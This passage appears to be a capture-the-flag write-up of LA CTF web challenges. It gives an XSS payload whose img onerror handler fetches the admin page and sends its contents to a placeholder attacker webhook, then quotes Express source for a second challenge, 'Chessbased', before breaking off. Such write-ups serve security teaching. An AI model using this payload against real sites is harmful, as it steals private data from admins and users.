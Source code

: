 ```js

app.get('/post/:id', (req, res) => {
    res.sendFile(__dirname + '/public/post/post.html');
});

...
....
```
It is obvious that the flag is stored in the response of the `/admin` endpoint, but we need to know the secret key. Since the secret key is stored in the admin environment variable, we can use the XSS to pass the secret from admin to the endpoint and send the response which contains the flag to our webhook:

### Payload:

```js
<img src=x onerror='fetch("/admin").then(r=>r.text()).then(d=>location="<YOUR_WEBHOOK>?"+d)'>
```

Then we quickly take our generated post link, and put into admin bot.

> lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}

## Chessbased (265 points, 21st solve/247 solves)

Another easy one:

### app.js

```js
...

const port = process.env.PORT ?? 3000;
const flag = process.env.FLAG ?? 'lactf{owo_uwu}';
const adminpw = process.env.ADMINPW ?? 'adminpw';
const challdomain = process.env.CHALLDOMAIN ?? 'http://localhost:3000/';

openings.forEach((op) => (op.premium = false));
openings.push({ premium: true, name: 'flag', moves: flag });

const lookup = new Map(openings.map((op) => [op.name, op]));

app = express();

app.use(cookieParser());
app.use('/', express.static(path.join(__dirname, '../frontend/dist')));
app.use(express.json());

app.get('/render', (req, res) => {
  const id = req.query.id;
  const op = lookup.get(id);
  res.send(`
    <p>${op?.name}</p>
    <p>${op?.moves}</p>
  `);
});

app.post('/search', (req, res) => {
  if (req.headers.referer !== challdomain) {
    res.send('only challenge is allowed to make search requests');
    return;
  }
  const q = req.body.q ?? 'n/a';
  const hasPremium = req.cookies.adminpw === adminpw;
  for (const op of openings) {
```